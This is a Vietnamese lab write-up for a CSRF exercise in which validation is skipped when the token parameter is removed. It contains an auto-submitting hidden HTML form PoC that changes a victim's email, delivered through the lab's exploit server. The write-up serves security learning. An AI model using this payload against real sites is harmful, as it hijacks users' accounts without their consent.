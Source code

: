 # CSRF where token validation depends on token being present

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên, ta đăng nhập vào tài khoản đã cho rồi bắt request của quá trình thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/157731675-bc3191ff-ef5a-49fb-96ea-d147d66ad12b.png)

Khi gửi vào Repeater ta thấy được ở đây có param CSRF token.

![image](https://user-images.githubusercontent.com/72268643/157732124-6c4fe616-cb2a-4434-a7c8-5ed474aca9c3.png)

Ở lab này, ta có thể xóa cả phần token ở trên request đi để có thể bỏ qua khâu xác thực. 

![image](https://user-images.githubusercontent.com/72268643/157732387-2550f6ea-a507-4192-a137-4891010bfba2.png)

Và sau khi xóa bỏ, ta vẫn sẽ nhận được kết quả phản hồi email đã được thay đổi.

![image](https://user-images.githubusercontent.com/72268643/157732535-637ca137-7939-4eb0-8545-7174030ea627.png)

Vậy là để tấn công, ta sẽ viết PoC để gửi lên phía server như sau:

```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
    </form>

    <script>document.getElementById("csrf-form").submit()</script> <!-- Phần tự submit form thực thi -->
  </body>
</html>
```
Tiếp đến gửi đến Exploit Server, sau đó gửi cho nạn nhân.

![image](https://user-images.githubusercontent.com/72268643/157735305-80218cc7-da3d-41a3-9f0f-0a1f8260e02b.png)

Deliver to victim và hoàn thành lab.
